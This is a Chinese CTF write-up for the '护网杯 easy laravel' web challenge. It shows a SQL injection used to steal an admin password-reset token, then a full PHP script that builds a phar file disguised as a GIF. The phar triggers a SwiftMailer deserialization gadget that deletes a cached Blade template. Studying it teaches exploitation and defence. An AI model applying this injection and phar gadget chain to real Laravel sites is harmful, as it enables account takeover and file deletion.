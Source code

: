 ```yaml
---
layout: post
title:  护网杯-easy laravel-Writeup
noToc: true
date:   2018-10-14 16:30:00 +0800
tags: WEB CTF 护网杯
cover: '../assets/test1.png'
---
```


##  护网杯-easy laravel-Writeup

​                                      Category: [PHP](http://www.venenof.com/index.php/category/PHP/), [CTF](http://www.venenof.com/index.php/category/CTF/), [Web](http://www.venenof.com/index.php/category/Web/)

​                                      文章来源于原venenof-[Web](http://www.venenof.com/index.php/category/Web/)，转载venenof

护网杯碰到一个`Laravel`的代码审计题目，刚好最近在用`LA`写平台，于是就很感兴趣，题目整体不难，对`Laravel`框架熟悉就可以做，但整个利用链构造的比较巧妙，感谢出题人@4uuu Nya出了这么一个有意思的题目。

------

源码可以发现`https://github.com/qqqqqqvq/easy_laravel`，下载下来本地看一下源码：

```
$factory->define(App\User::class, function (Faker\Generator $faker) {
    static $password;

    return [
        'name' => '4uuu Nya',
        'email' => 'admin@qvq.im',
        'password' => bcrypt(str_random(40)),
        'remember_token' => str_random(10),
    ];
});
```

很显然，管理员的登陆邮箱已经知道了，同时也知道密码是随机`40`位字符串，基本不可能爆破。

看一下路由，发现只有`note`可以在非admin用户下访问，看一下`NoteController`:

```
public function index(Note $note)
{
    $username = Auth::user()->name;
    $notes = DB::select("SELECT * FROM `notes` WHERE `author`='{$username}'");
    return view('note', compact('notes'));
}
```

明显的`sqli`，我们可以获取任何数据库中的内容，但是密码我们即使拿到了也没有什么用，我们发现其注册登陆的整个流程都是`Laravel`官方推荐的，也就是管理员肯定是这么安装的：

```
php artisan make:auth
```

既然没有重构这部分代码，也就意味着我们可以去重置管理员密码，点击重置密码时，输入管理员邮箱`admin@qvq.im`，那么`password_resets`中会更新一个token，访问`/password/reset/token`即可重置密码，首先利用注入拿到token：
 ![web1.png](http://www.venenof.com/usr/uploads/2018/10/3884211593.png)
 然后修改密码即可:
 ![web2.png](http://www.venenof.com/usr/uploads/2018/10/2368972807.png)

> Blade 模版

进入后台后，访问`http://49.4.78.51:32310/flag`是提示`no flag`，但是我们看一下`FlagController`

```
    public function showFlag()
    {
        $flag = file_get_contents('/th1s1s_F14g_2333333');
        return view('auth.flag')->with('flag', $flag);
    }
```

很明显，blade渲染的跟我们看到的明显不一样，如果用`Laravel`写过东西，经常会遇到这种问题，明明blade更新了，页面却没有显示，这都是因为`Laravel`的模版缓存，很明显，现在我们需要去更改flag的模版缓存，缓存文件的名字是laravel自动生成的，生成方法如下：

```
/**
     * Get the path to the compiled version of a view.
     *
     * @param  string  $path
     * @return string
*/
public function getCompiledPath($path)
{
    return $this->cachePath.'/'.sha1($path).'.php';
}
```

但是整个站的逻辑很简单，没有其他文件操作的点，那么就剩下了`UploadController`，只能上传图片，但是有一个方法引起了我的兴趣：

```
public function check(Request $request)
{
    $path = $request->input('path', $this->path);
    $filename = $request->input('filename', null);
    if($filename){
        if(!file_exists($path . $filename)){
            Flash::error('磁盘文件已删除，刷新文件列表');
        }else{
            Flash::success('文件有效');
        }
    }
    return redirect(route('files'));
}
```

`path`跟`filename`没有任何过滤，而我们可以利用`file_exists`去操作phar包，这里很明显存在一个反序列化，于是现在的思路很明确：

`phar反序列化=>文件操作删除或者移除=>laravel重新渲染blade=>读取flag`

看了下`composer`，发现都是默认组件，于是全局搜一下`unlink`，在`Swift_ByteStream_TemporaryFileByteStream`的析构函数中存在`unlink`方法:
 ![nnn.png](http://www.venenof.com/usr/uploads/2018/10/577144858.png)
 于是直接构造即可:

```
<?php
class Swift_ByteStream_AbstractFilterableInputStream {
    /**
     * Write sequence.
     */
    protected $sequence = 0;
    /**
     * StreamFilters.
     *
     * @var Swift_StreamFilter[]
     */
    private $filters = [];
    /**
     * A buffer for writing.
     */
    private $writeBuffer = '';
    /**
     * Bound streams.
     *
     * @var Swift_InputByteStream[]
     */
    private $mirrors = [];
}
class Swift_ByteStream_FileByteStream extends Swift_ByteStream_AbstractFilterableInputStream {
    /** The internal pointer offset */
    private $_offset = 0;

    /** The path to the file */
    private $_path;

    /** The mode this file is opened in for writing */
    private $_mode;

    /** A lazy-loaded resource handle for reading the file */
    private $_reader;

    /** A lazy-loaded resource handle for writing the file */
    private $_writer;

    /** If magic_quotes_runtime is on, this will be true */
    private $_quotes = false;

    /** If stream is seekable true/false, or null if not known */
    private $_seekable = null;

    /**
     * Create a new FileByteStream for $path.
     *
     * @param string $path
     * @param bool   $writable if true
     */
    public function __construct($path, $writable = false)
    {
        $this->_path = $path;
        $this->_mode = $writable ? 'w+b' : 'rb';

        if (function_exists('get_magic_quotes_runtime') && @get_magic_quotes_runtime() == 1) {
            $this->_quotes = true;
        }
    }

    /**
     * Get the complete path to the file.
     *
     * @return string
     */
    public function getPath()
    {
        return $this->_path;
    }
}
class Swift_ByteStream_TemporaryFileByteStream extends Swift_ByteStream_FileByteStream {
    public function __construct() {
        $filePath = "/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php";
        parent::__construct($filePath, true);
    }
    public function __destruct() {
        if (file_exists($this->getPath())) {
            @unlink($this->getPath());
        }
    }
}
$obj = new Swift_ByteStream_TemporaryFileByteStream();
$p = new Phar('./1.phar', 0);
$p->startBuffering();
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
$p->setMetadata($obj);
$p->addFromString('1.txt','text');
$p->stopBuffering();
rename('./1.phar', '1.gif');
?>
```

然后上传，`check`的时候触发反序列化即可删除模版文件，然后访问`flag`路由拿到flag:-P
 ![x.png](http://www.venenof.com/usr/uploads/2018/10/714312758.png)